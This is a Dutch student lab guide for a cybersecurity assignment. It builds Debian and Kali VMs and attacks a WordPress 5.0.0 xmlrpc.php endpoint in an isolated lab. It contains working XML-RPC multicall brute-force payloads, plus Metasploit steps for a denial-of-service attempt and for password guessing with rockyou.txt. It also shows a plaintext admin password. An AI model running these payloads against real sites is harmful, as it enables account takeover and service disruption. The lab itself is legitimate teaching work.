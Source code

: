 # **Deployment handleiding**

Dit is ons stappenplan/startupplan voor de cybersecurity opdracht.  
We exploiten een XML vulnerability in wordpres 5.0.0

Student 1: Pieter Deconinck  
Student 2: Matthias Appelmans

## **Virtuele machines opzetten.**

**Folder structure**

Ons script verwacht dat de vdi's in de juiste folder zitten.  

Debian Desktop VDI: `C:\VDI Files\Debian\Debian 11 (64bit).vdi`  
Kali VDI: `C:\VDI Files\Debian\Kali Linux 2022.3 (64bit).vdi`  

![image](./images/Folder%20structure%20.png)
![image](./images/Folder%20structure%20debian.png)
![image](./images/Folder%20structure%20kali.png)

**Download de vm's**

- Download de Debian 11 Desktop 64 bit image van https://www.osboxes.org/debian/
- Download de Kali Linux 2022.3 (All Tools) 64 bit van https://www.osboxes.org/kali-linux/

**Powershell script**

- Open een terminal op de plek van de DebianV.ps1 & EvilKali.ps1
- Vraag eerst je execution policy op met `Get-ExecutionPolicy`  
- als deze niet op **unrestricted** staat voer dan dit commando uit: `Set-ExecutionPolicy Unrestricted`
- Run daarna de scripts 1 voor 1 met `.\DebianV.ps1` en `.\EvilKali.ps1`

- Als vboxmanage niet gevonden kan worden link je die best aan je Path  
`$env:Path += ";C:\Program Files\Oracle\VirtualBox"`  

![image](./images/powershell%20scripts.png)
![image](./images/Verwachte%20output.png)


Als je de VM al eens opgezet hebt, en hem opnieuw wilt opzetten, moet je eerst de VM verwijderen (delete all files). en verwijder ook de aangemaakt vdi in de media manager.

Als je problemen hebt met een al gebruikte UUID:  
`VBoxManage internalcommands sethduuid "C:\VDI Files\Debian\Debian 11 (64bit).vdi"`  
`VBoxManage internalcommands sethduuid "C:\VDI Files\Kali\Kali Linux 2022.3 (64bit).vdi"`  

**Debian Desktop Webserver**

- Log in op de virtuele machine met `osboxes.org`  

- De scripts kan je vinden in onze Bash scripts folder op github:  
`https://github.com/Pieter-Deconinck/Cybersec-Matthi-Pieter`  

- Open de terminal en download het debian.sh script:  
`sudo wget https://raw.githubusercontent.com/Pieter-Deconinck/Cybersec-Matthi-Pieter/main/Bash%20scripts/debian.sh`

- geef het script execute permissions: `sudo chmod +x debian.sh`
- voer het script uit met sudo: `sudo ./debian.sh`

![image](./images/Script%20completed.png)

De database settings zijn al door gegeven aan wordpress via  
de wp-config.php file.

- Ga nu naar `localhost` en vervolledig de installatie met

Site title: `Pieter`  
Username: `Pieter`  
Password: `greenday`  
Email: `Pieter.deconinck@student.hogent.be`  

- Log in als admin op https://localhost/wp-admin/  
- pas de wordpress url's aan naar `192.168.1.60`

![image](./images/wordpress%20settings.png)

**Kali Attacker**

- Log in op de virtuele machine met `osboxes.org`  

- De scripts kan je vinden in onze Bash scripts folder op github:  
`https://github.com/Pieter-Deconinck/Cybersec-Matthi-Pieter`  

- Open de terminal en download het debian.sh script:  
`sudo wget https://raw.githubusercontent.com/Pieter-Deconinck/Cybersec-Matthi-Pieter/main/Bash%20scripts/kali.sh`

- geef het script execute permissions: `sudo chmod +x kali.sh`  
- voer het script uit met sudo: `sudo ./kali.sh`

## Exploit uitvoeren

**Burp suite proof-of-concept**

- Open burp suite en klik op de Proxy tab
- Open de burp suite browser en browse naar `http://192.168.1.60/xmlrpc.php`
- Dit zou een "XML-RPC server accepts POST requests only." moeten geven.
- Zet intercept nu aan in de proxy, en refresh de pagina
- Stuur de GET request naar de repeater via actions
- In de repeater tab, verander de `GET` naar `POST`
- Voeg de payload toe en klik send.

        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>admin</value></param>
        <param><value>pass</value></param>
        </params>
        </methodCall>

- Je kan zien dat de server de request verwerkt.

![image](./images/XML%20payload.png)

- Voeg de Multicall array payload toe en klik send.

        <methodCall>
        <methodName>system.multicall</methodName>
        <params>
            <param>
            <value>
                <array>
                <data>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password1</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                    <value>
                    <struct>
                        <member>
                        <name>methodName</name>
                        <value><string>wp.getUsersBlogs</string></value>
                        </member>
                        <member>
                        <name>params</name>
                        <value>
                            <array>
                            <data>
                                <value><string>admin</string></value>
                                <value><string>password2</string></value>
                            </data>
                            </array>
                        </value>
                        </member>
                    </struct>
                    </value>
                </data>
                </array>
            </value>
            </param>
        </params>
        </methodCall>


**Metasploit framework**

**DOS attack**

- Ga naar de Debian VM en open een terminal
- voer het `top` commando uit en bekijk de cpu %
  
![image](./images/top.png)

- Open het metasploit framework in de Kali VM. Via search bar of met `msfconsole`
- Gebruik de DOS module: `use auxiliary/scanner/http/wordpress_xmlrpc_login`
- Bepaal target ip: `set RHOSTS 192.168.1.60`
- Bepaal target poort: `set RPORT 80`
- Request limiet: `set RLIMIT 10000000`
- Bekijk de ingestelde opties: `show options`
- Voer de attack uit: `run`
- ga kijken bij de Debian VM terminal

![image](./images/dos%20attack.png)

- Stop de attack met `ctrl+c` in de Kali vm terminal te doen.

**Bruteforce credentials**

- Open het metasploit framework in de Kali VM. Via search bar of met `msfconsole`
- Gebruik de DOS module: `use auxiliary/scanner/http/wordpress_xmlrpc_login`
- Bepaal target ip: `set RHOSTS 192.168.1.60`
- Bepaal de namen lijst: `set USER_FILE /usr/share/wordlists/names.txt`
- Bepaal de passwoorden lijst: `set PASS_FILE /usr/share/wordlists/rockyou.txt`
- Stop vanaf succes: `set STOP_ON_SUCCESS true`

- Unzip de rockyou wordlist: `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
- Voeg de namen toe aan de names.txt: `sudo nano /usr/share/wordlists/names.txt`

        Pieter
        Matthias
        Joeri
        Metehan
        Jari
        Jobbe
        Sven
        Michiel

- Bekijk de ingestelde opties: `show options`
- Voer de attack uit: `run`

![image](./images/brute%20force.png)